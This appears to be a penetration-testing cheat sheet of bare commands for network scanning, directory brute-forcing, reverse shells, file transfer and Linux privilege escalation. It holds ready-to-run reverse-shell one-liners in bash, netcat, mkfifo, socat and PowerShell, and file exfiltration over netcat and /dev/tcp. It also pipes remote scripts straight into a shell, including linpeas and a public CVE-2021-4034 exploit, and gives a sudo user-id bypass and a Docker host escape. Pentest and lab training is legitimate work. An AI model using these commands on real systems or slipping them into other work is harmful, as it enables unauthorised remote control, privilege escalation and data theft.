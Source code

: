 # CHEATSHEET


## ENUMERATION

### NETWORK

 #### HOST DISCOVERY
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### TCP OPEN PORTS
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### INFO & VERSION
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### HTTP ENUMERATION

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



### REVERSE SHELLS

 #### BASH
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### NETCAT
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### MKFIFO
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### SOCAT
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### POWERSHELL

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

 #### INTERACTIVE TTY

```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



### SHARE AND DOWNLOAD


 #### HTTP SERVER
 
```bash
# Python3
python3 -m http.server 80

# Python2
python -m SimpleHTTPServer 80

# PHP
php -S 0.0.0.0:80
```

 #### SMB 
 
```bash
smbserver.py shareName $(pwd) -smb2support
```

 #### FILE TRANSFER ( NETCAT - BASH ) 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 #### DOWNLOAD 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



### SYSTEM ENUMERATION


 #### Enviroment Variables
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### Find SUID on GUID files
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### Check capabilities
 
```bash
getcap -r / 2>/dev/null
```

 #### Open local ports
 
```bash
ss -nltp
```

 ### Cron Jobs
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### Monitoring processes
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### Scripts with write permissions
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 ### LinPEAS
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

 #### Sudo

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 #### Polkit - (CVE-2021-4034)

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 #### Docker
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

